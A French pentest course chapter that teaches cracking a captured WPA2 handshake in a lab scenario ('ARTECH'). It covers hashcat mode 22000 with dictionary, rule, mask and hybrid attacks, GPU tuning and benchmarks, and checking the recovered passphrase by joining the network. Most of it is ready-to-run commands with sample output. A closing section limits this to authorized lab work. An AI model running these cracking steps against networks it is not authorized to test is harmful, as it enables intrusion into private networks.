

# 5.6 hashcat et attaque GPU

!!! quote "L'analogie de la chaîne de montage versus l'artisan"

    Un artisan horloger talentueux assemble une montre en quatre heures. Il y a vingt ans, c'était la seule façon de produire des montres. Une chaîne de montage moderne en assemble une toutes les douze secondes, soit 1200 par jour. Pas grâce à un travail meilleur, mais à la parallélisation massive. Le cracking de WPA2 a vécu la même révolution. Avec aircrack-ng sur CPU, vous testiez 8 000 mots de passe par seconde en 2014. Un GPU RTX 4090 en teste aujourd'hui 1.8 million. La différence n'est pas dans l'algorithme, identique. Elle est dans le nombre de cœurs CUDA qui calculent en parallèle. C'est ce qui rend WPA2-PSK avec mots de passe humains fondamentalement compromis en 2026.

## Métadonnées du chapitre

Ce chapitre est l'aboutissement technique de l'attaque WPA2. Voici ses caractéristiques.

| Champ | Valeur |
|---|---|
| Durée estimée | 4 heures |
| Niveau | Pratique avancé |
| Prérequis | 5.4 (handshake), 5.5 (dictionnaires) |
| Livrables | PSK ARTECH cracké en lab |
| Auto-explication | 15 minutes |

## Objectifs pédagogiques

À l'issue de ce chapitre, vous serez capable de :

- Installer et configurer hashcat correctement
- Lancer des attaques par dictionnaire mode 22000
- Utiliser les attaques par masque (brute force ciblée)
- Optimiser les performances GPU
- Gérer des sessions longues (pause, restore)
- Comprendre les benchmarks et limites

---

## 1. Présentation de hashcat

**hashcat** est l'outil de cracking de hashes le plus rapide et le plus mature. Maintenu par Jens Steube depuis 2009.

### 1.1 Caractéristiques

Voici les caractéristiques principales de hashcat.

| Caractéristique | Précision |
|---|---|
| Type | CLI cracker GPU/CPU |
| Licence | MIT (open source) |
| Plateformes | Windows, Linux, macOS |
| Backends | CUDA (NVIDIA), OpenCL (multi-vendor), HIP (AMD), Metal (Apple) |
| Hashes supportés | 350+ formats |
| Maintenu | Très actif |

### 1.2 Modes hashcat pour WPA

Voici les modes hashcat liés à WPA2/WPA3.

| Mode | Description |
|---|---|
| 2500 | WPA-EAPOL-PBKDF2 (legacy hccapx) - DÉPRÉCIÉ |
| 2501 | WPA-EAPOL-PMK (PMK direct) - rare |
| 16800 | WPA-PMKID-PBKDF2 (legacy) - DÉPRÉCIÉ |
| 16801 | WPA-PMKID-PMK - rare |
| **22000** | **WPA-PBKDF2-PMKID+EAPOL (moderne, unifié)** |
| 22001 | WPA-PMK-PMKID+EAPOL |

**Pour 2026, utilisez exclusivement le mode 22000** qui combine handshake et PMKID dans un format unifié.

### 1.3 Modes d'attaque

hashcat supporte plusieurs modes d'attaque. Voici les plus utiles.

| Mode | Option | Description |
|---|---|---|
| Dictionary | -a 0 | Liste de mots |
| Combinator | -a 1 | Combinaisons de 2 listes |
| Mask | -a 3 | Brute force par masque |
| Hybrid wordlist+mask | -a 6 | Dico + masque suffixe |
| Hybrid mask+wordlist | -a 7 | Masque préfixe + dico |
| Association attack | -a 9 | Spécifique 22000 (rare) |

## 2. Installation et configuration

### 2.1 Installation sur Kali Linux

hashcat est inclus dans Kali. Mise à jour recommandée.

```bash
# Mise à jour
sudo apt update
sudo apt install hashcat -y

# Vérification version
hashcat --version

# Doit afficher 6.2.6 ou plus récent
```

### 2.2 Installation depuis sources (version récente)

Pour la dernière version :

```bash
# Téléchargement et compilation
git clone https://github.com/hashcat/hashcat.git
cd hashcat
make -j$(nproc)
sudo make install

# Vérification
hashcat --version
```

### 2.3 Configuration GPU NVIDIA

Pour NVIDIA, vous devez avoir CUDA installé.

```bash
# Vérification CUDA
nvidia-smi

# Sortie typique
# +-----------------------------------------------------------------------------+
# | NVIDIA-SMI 535.x        Driver Version: 535.x         CUDA Version: 12.2  |
# |-------------------------------+----------------------+----------------------+
# | GPU  Name        Persistence-M| Bus-Id        Disp.A | Volatile Uncorr. ECC |
# |   0  NVIDIA RTX 3060          | 00000000:01:00.0  On |                  N/A |
# +-------------------------------+----------------------+----------------------+

# Installation drivers Kali
sudo apt install nvidia-driver -y
sudo apt install nvidia-cuda-toolkit -y

# Reboot nécessaire
sudo reboot
```

### 2.4 Configuration GPU AMD

Pour AMD (HIP/ROCm) :

```bash
# Installation drivers AMD
sudo apt install amdgpu-pro hip-runtime-amd -y

# Vérification
rocm-smi
```

### 2.5 Test de fonctionnement

Voici un test rapide pour valider l'installation.

```bash
# Benchmark mode 22000
hashcat -b -m 22000

# Sortie typique RTX 3060
# Hashmode: 22000 - WPA-PBKDF2-PMKID+EAPOL (Iterations: 4095)
# Speed.#1.........:   485.3 kH/s (51.86ms) @ Accel:64 Loops:64 Thr:32 Vec:1
# 
# Sortie typique RTX 4090
# Speed.#1.........:  1804.5 kH/s (43.21ms) @ Accel:128 Loops:64 Thr:32 Vec:1
```

Si le benchmark s'exécute, hashcat est correctement installé.

## 3. Première attaque par dictionnaire

### 3.1 Syntaxe de base

Voici la syntaxe complète d'une attaque WPA2 par dictionnaire.

```bash
hashcat -m MODE -a ATTACK_MODE [OPTIONS] HASH_FILE WORDLIST [RULES]
```

### 3.2 Commande type ARTECH

Voici la commande pour cracker ARTECH avec votre dictionnaire personnalisé.

```bash
# Préparation
cd ~/pentest/artech-2026/handshake/

# Attaque par dictionnaire ARTECH
hashcat -m 22000 -a 0 \
    --status \
    --status-timer=10 \
    -o cracked.txt \
    artech-handshake.22000 \
    ../dictionaries/artech-dictionary.txt

# Sortie typique succès
# hashcat (v6.2.6) starting
# 
# ...
# 
# 64:70:02:XX:XX:XX:aabbccddeeff:ARTECH-WIFI:ArtechMedical2020!
# 
# Session..........: hashcat
# Status...........: Cracked
# Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
# Speed.#1.........:   485.3 kH/s
# Recovered........: 1/1 (100.00%) Digests
```

La ligne avec le PSK en clair (`ArtechMedical2020!`) est le résultat final.

### 3.3 Options utiles

Voici les options à connaître pour le quotidien.

| Option | Effet |
|---|---|
| `-o file` | Fichier de sortie pour les hashes crackés |
| `--status` | Active le rapport de progression |
| `--status-timer=N` | Timer de rapport (secondes) |
| `--show` | Affiche les hashes déjà crackés |
| `-r rule` | Applique un fichier de règles |
| `-w 3` | Workload profile (1=lent, 4=rapide) |
| `--session=name` | Nomme la session pour pause/resume |
| `--restore` | Reprend session précédente |
| `--remove` | Retire hash cracké du fichier |

### 3.4 Workload profiles

Le workload profile balance performance vs réactivité.

| Profile | Effet |
|---|---|
| 1 (Low) | Lent, autres apps utilisables |
| 2 (Default) | Équilibré |
| 3 (High) | Rapide, autres apps lentes |
| 4 (Insane) | Maximum, machine dédiée |

```bash
# Pour un labo dédié au cracking
hashcat -m 22000 -a 0 -w 4 hash.22000 dico.txt
```

## 4. Attaque avec règles

Les règles vues au chapitre 5.5 multiplient les chances de trouver.

### 4.1 Application de règles

Voici comment appliquer un fichier de règles.

```bash
# Avec best64 (mutations standard)
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule

# Avec dive (mutations exhaustives)
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/dive.rule

# Combinaison de règles (très puissant mais long)
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule \
    -r /usr/share/hashcat/rules/best64.rule
# Le second -r combine : 64 × 64 = 4096 mutations
```

### 4.2 Création de règles à la volée

Plutôt qu'un fichier, vous pouvez tester des règles inline.

```bash
# Règle inline avec -j pour input, -k pour output
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    base.txt \
    -j '$1' -k '$!'
# Equivaut à : ajout '1' au début, '!' à la fin
```

## 5. Attaque par masque

Plutôt que de tester un dictionnaire, le mode `-a 3` teste un **masque** spécifique.

### 5.1 Caractères de masque

Voici les placeholders du système de masque.

| Placeholder | Signification |
|---|---|
| `?l` | Minuscule a-z (26) |
| `?u` | Majuscule A-Z (26) |
| `?d` | Chiffre 0-9 (10) |
| `?h` | Hex minuscule (16) |
| `?H` | Hex majuscule (16) |
| `?s` | Symbole spécial (33) |
| `?a` | Tout (?l + ?u + ?d + ?s = 95) |
| `?b` | Binaire 0x00-0xff |

### 5.2 Exemples de masques

Voici des masques typiques pour WPA2.

```bash
# 8 chiffres (factory PIN courant)
hashcat -m 22000 -a 3 \
    handshake.22000 \
    "?d?d?d?d?d?d?d?d"
# 10^8 = 100M candidats, ~3 minutes RTX 3060

# 8 caractères alphanumériques
hashcat -m 22000 -a 3 \
    handshake.22000 \
    "?a?a?a?a?a?a?a?a"
# 95^8 = 6.6 quadrillions, IMPRATICABLE

# Pattern : prénom 6 lettres + année
hashcat -m 22000 -a 3 \
    handshake.22000 \
    "?u?l?l?l?l?l2024"
# 26 × 26^5 × 1 = 308M candidats, ~10 minutes RTX 3060

# Pattern ARTECH : Artech + 4 chiffres + symbole
hashcat -m 22000 -a 3 \
    handshake.22000 \
    "Artech?d?d?d?d?s"
# 1 × 10^4 × 33 = 330k candidats, < 1 seconde
```

### 5.3 Charsets personnalisés

Vous pouvez définir vos propres charsets.

```bash
# Charset 1 : voyelles seulement
hashcat -m 22000 -a 3 \
    -1 aeiouy \
    handshake.22000 \
    "Artech?1?1?1?1?d?d?d?d"
# 6 × 6 × 6 × 6 × 10000 = 12.96M

# Charset multiple
hashcat -m 22000 -a 3 \
    -1 abcdef \
    -2 0123 \
    handshake.22000 \
    "?1?1?2?2?2?2"
```

### 5.4 Masques incrémentaux

Pour tester de longueur 8 à 12 :

```bash
# Test longueur 8 à 12
hashcat -m 22000 -a 3 \
    --increment \
    --increment-min=8 \
    --increment-max=12 \
    handshake.22000 \
    "?a?a?a?a?a?a?a?a?a?a?a?a"
```

## 6. Attaque hybride

Les modes hybrides combinent dictionnaire et masque.

### 6.1 Wordlist + masque

Mode `-a 6` ajoute un suffixe masqué au dictionnaire.

```bash
# Dictionnaire + 4 chiffres
hashcat -m 22000 -a 6 \
    handshake.22000 \
    artech-base.txt \
    "?d?d?d?d"

# Pour chaque mot du dico, teste mot+0000 à mot+9999
# Si dico = 100 mots, total = 100 × 10000 = 1M
```

### 6.2 Masque + wordlist

Mode `-a 7` ajoute un préfixe masqué au dictionnaire.

```bash
# 2 chiffres + dictionnaire
hashcat -m 22000 -a 7 \
    handshake.22000 \
    "?d?d" \
    artech-base.txt

# Pour chaque mot du dico, teste 00mot à 99mot
```

### 6.3 Combinaison de wordlists

Mode `-a 1` combine deux wordlists.

```bash
# wordlist1 + wordlist2
hashcat -m 22000 -a 1 \
    handshake.22000 \
    prenoms.txt \
    annees.txt

# Pour chaque (prenom, annee), teste prenom+annee
```

## 7. Performance et optimisation

### 7.1 Benchmarks 2026

Voici les vitesses typiques en 2026 sur mode 22000.

| GPU | PSK/sec | Coût indicatif |
|---|---|---|
| GTX 1060 | 100 000 | 200 € occasion |
| RTX 3060 | 485 000 | 350 € |
| RTX 3080 | 850 000 | 700 € |
| RTX 4070 | 1 200 000 | 700 € |
| RTX 4080 | 1 600 000 | 1 200 € |
| RTX 4090 | 1 800 000 | 1 800 € |
| 8x RTX 4090 cluster | 14 400 000 | 14 000 € |

### 7.2 Optimisations matérielles

Voici les leviers d'optimisation matériel.

| Levier | Gain |
|---|---|
| Drivers récents | 10-30 % |
| Mémoire GPU rapide | 5-15 % |
| Refroidissement bon | Évite throttling |
| Plusieurs GPU | Linéaire (×N) |
| Cluster réseau | Très complexe, marginal |

### 7.3 Optimisations logicielles

Voici les optimisations côté hashcat.

```bash
# Mode -O optimisé (limite à 32 caractères PSK)
hashcat -m 22000 -a 0 -O \
    handshake.22000 dico.txt
# Plus rapide mais ignore PSK > 32 caractères

# Workload profile -w 4 (machine dédiée)
hashcat -m 22000 -a 0 -w 4 \
    handshake.22000 dico.txt

# Ajustement Accel/Loops (avancé)
hashcat -m 22000 -a 0 -n 64 -u 64 \
    handshake.22000 dico.txt
```

### 7.4 Optimisations dictionnaire

Voici les optimisations sur le dictionnaire.

| Optimisation | Effet |
|---|---|
| Pré-tri du dictionnaire | hashcat marche mieux trié |
| Dédup avec sort -u | Élimine doublons |
| Filtrage longueur | hashcat filtre auto, mais bon de pré-traiter |
| Optimisation casse | Si AP ESSID = lowercase, traiter en amont |

```bash
# Pré-traitement type
sort -u rockyou.txt | grep -E "^.{8,63}$" > rockyou-cleaned.txt
# Tri unique + filtre longueur valide pour WPA2 (8-63)
```

## 8. Gestion des sessions longues

Pour les attaques durant des heures, gérez les sessions.

### 8.1 Nommage de session

```bash
# Lancement avec nom de session
hashcat -m 22000 -a 0 \
    --session=artech-2026 \
    artech-handshake.22000 \
    rockyou.txt \
    -r /usr/share/hashcat/rules/dive.rule
```

### 8.2 Pause et resume

```bash
# Pendant l'attaque, appuyer 'p' pour pause
# Appuyer 'b' pour bypass (skip current)
# Appuyer 's' pour status

# Reprendre une session interrompue
hashcat --restore --session=artech-2026
```

### 8.3 Skip et limite

```bash
# Sauter les premières N tentatives
hashcat -m 22000 -a 0 \
    --skip=1000000 \
    handshake.22000 dico.txt

# Limiter à N tentatives max
hashcat -m 22000 -a 0 \
    --limit=10000000 \
    handshake.22000 dico.txt
```

## 9. Monitoring et logs

### 9.1 Status en temps réel

Voici les options de monitoring.

```bash
# Status auto-refresh
hashcat -m 22000 -a 0 \
    --status \
    --status-timer=10 \
    handshake.22000 dico.txt

# Sortie typique chaque 10 sec
# Status...........: Running
# Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
# Hash.Target......: artech-handshake.22000
# Time.Started.....: 2026-04-30 15:00:01
# Time.Estimated...: 2026-04-30 15:32:41 (32 mins)
# Speed.#1.........:   485.3 kH/s (51.86ms)
# Recovered........: 0/1 (0.00%) Digests
# Progress.........: 14000000/93600000 (14.95%)
# Rejected.........: 0/14000000 (0.00%)
# Restore.Point....: 350000/2340000 (14.96%)
```

### 9.2 Sortie JSON

Pour intégration avec scripts.

```bash
hashcat -m 22000 -a 0 \
    --status \
    --machine-readable \
    handshake.22000 dico.txt
```

### 9.3 Monitoring GPU

Pendant l'attaque, monitorer le GPU.

```bash
# Continu nvidia-smi
watch -n 1 nvidia-smi

# Utilisation, température, fréquence
nvidia-smi --query-gpu=utilization.gpu,temperature.gpu,clocks.current.graphics \
    --format=csv -l 1
```

## 10. Cas pratique - Cracking ARTECH

### 10.1 Stratégie en cascade

Voici la stratégie complète pour ARTECH.



### 10.2 Commandes complètes

Voici la séquence à exécuter.

```bash
cd ~/pentest/artech-2026/handshake/

# Niveau 1 - Dictionnaire ARTECH ciblé
hashcat -m 22000 -a 0 \
    --session=artech-N1 \
    -o cracked.txt \
    artech-handshake.22000 \
    ../dictionaries/artech-dictionary.txt

# Si trouvé : 
cat cracked.txt
# Format : BSSID:CLIENT_MAC:SSID:PSK
# Exemple : 64:70:02:XX:XX:XX:aabbccddeeff:ARTECH-WIFI:ArtechMedical2020!

# Si pas trouvé, Niveau 2
hashcat -m 22000 -a 0 \
    --session=artech-N2 \
    -o cracked.txt \
    artech-handshake.22000 \
    /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule

# Voir le PSK trouvé
hashcat -m 22000 \
    --show \
    -o cracked-final.txt \
    artech-handshake.22000

# Documentation
sha256sum cracked.txt > MANIFEST-cracked.sha256
echo "$(date -u +%Y-%m-%dT%H:%M:%SZ) - PSK ARTECH cracké" \
    >> ~/pentest/artech-2026/journal.md
```

### 10.3 Validation

Une fois le PSK obtenu, validez en vous connectant au lab.

```bash
# Configuration manuelle WPA supplicant pour test
sudo wpa_passphrase ARTECH-WIFI ArtechMedical2020! > /tmp/wpa-test.conf
sudo wpa_supplicant -B -i wlan1 -c /tmp/wpa-test.conf
sudo dhclient wlan1

# Test connexion
ping -c 4 192.168.50.1
```

Si vous obtenez une réponse ping, le PSK est validé.

## 11. Considérations légales et éthiques

### 11.1 Strict cadre du lab

Le cracking de PSK n'est légal que sur **votre propre réseau** ou avec mandat écrit.

### 11.2 Conservation des résultats

Voici la politique recommandée pour les résultats.

| Action | Délai |
|---|---|
| Documentation rapport | À l'issue de la mission |
| Conservation cracked.txt | Durée du mandat |
| Suppression cracked.txt | Fin de mission + 30 jours |
| Anonymisation rapport public | Avant diffusion |

### 11.3 Rapport responsable

Si vous découvrez une vulnérabilité grave (PSK trivial), votre rapport doit être **responsable**.

```text
RAPPORT RESPONSABLE
=====================

NE PAS :
  - Publier le PSK en clair dans rapport public
  - Diffuser la procédure exacte
  - Permettre à un lecteur de reproduire facilement

FAIRE :
  - Documenter dans rapport restreint au commanditaire
  - Recommander mesures correctives immédiates
  - Tenir compte du contexte (PME peu armée)
```

## 12. Auto-évaluation

Vérifiez votre maîtrise par les questions suivantes.

| # | Question | Réponse |
|---|---|---|
| 1 | Mode hashcat moderne pour WPA2 ? | 22000 |
| 2 | Mode d'attaque par dictionnaire ? | -a 0 |
| 3 | Mode d'attaque par masque ? | -a 3 |
| 4 | Placeholder pour minuscule ? | ?l |
| 5 | Comment reprendre une session ? | --restore --session=nom |
| 6 | Touche pour status pendant attaque ? | s |
| 7 | Workload profile machine dédiée ? | -w 4 |
| 8 | Vitesse RTX 4090 typique ? | ~1.8M PSK/sec |

## 13. Synthèse

Voici les points clés à retenir.

```text
HASHCAT GPU CRACKING

INSTALLATION
  apt install hashcat
  CUDA pour NVIDIA
  HIP pour AMD
  Vérification : hashcat -b -m 22000

MODES WPA
  22000 : moderne (à privilégier)
  2500 : déprécié (hccapx)
  16800 : déprécié (PMKID)

MODES D'ATTAQUE
  -a 0 : dictionnaire
  -a 1 : combinator (2 dicos)
  -a 3 : masque
  -a 6 : dico + masque (suffix)
  -a 7 : masque + dico (préfix)

MASQUES
  ?l : minuscule
  ?u : majuscule
  ?d : chiffre
  ?s : symbole
  ?a : tout

OPTIONS UTILES
  --session=nom : nomme session
  --restore : reprend session
  -o file : sortie résultats
  --status : monitoring
  -w 4 : workload max

STRATÉGIE CASCADE ARTECH
  N1 : dico ARTECH ciblé (<1s)
  N2 : rockyou + best64 (~30min)
  N3 : crackstation + dive (heures)
  N4 : mask ciblé

PERFORMANCE 2026
  GTX 1060 : 100k PSK/s
  RTX 3060 : 485k PSK/s
  RTX 4090 : 1.8M PSK/s

LÉGALITÉ
  Lab uniquement
  Mandat écrit pentest
  Articles 226-15, 323-1
```

---

**Chapitre précédent** : [5.5 Construction de dictionnaires français](5-5-dictionnaires-francais.md)

**Chapitre suivant** : [5.7 aircrack-ng en mode CPU](5-7-aircrack-ng-cpu.md)
